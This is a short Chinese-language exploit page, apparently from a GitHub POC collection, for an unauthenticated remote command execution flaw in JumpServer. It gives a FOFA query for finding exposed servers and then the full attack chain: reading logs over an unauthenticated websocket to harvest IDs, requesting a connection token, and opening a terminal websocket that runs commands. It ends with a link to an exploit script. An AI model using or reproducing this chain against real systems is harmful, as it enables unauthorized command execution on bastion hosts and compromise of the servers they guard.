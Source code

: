 # JumpServer 未授权接口 远程命令执行漏洞
## 资产搜索
fofa app="JumpServer-堡垒机"  
![](img/login.png)
## POC
1. websocket进行日志查询：  
```url
ws://ip:port/ws/ops/tasks/log/

{"task":"/opt/jumpserver/logs/gunicorn"}
```  
查找`asset_id system_user_id user_id`三个数据  
![](img/log.png)  
或者查找一下Task id数据，然后send`{"task":"找到的Task id"}`，可能会泄漏一些敏感信息。  

2. 获取token：
```url
POST请求 http://ip:port/api/v1/authentication/connection-token/?user-only=1

{"user": "xxx","asset": "xxx","system_user": "xxx"}
```
这个token有效时间只有20秒  
![](img/getToken.png)  

3. RCE
```url
ws://ip:port/koko/ws/token/?target_id={获取到的token}

{id:"{获取到的token}",type:"TERMINAL_INIT",data: "whoami"}
```
chrome插件：WebSocket King  
[利用脚本](rce.py)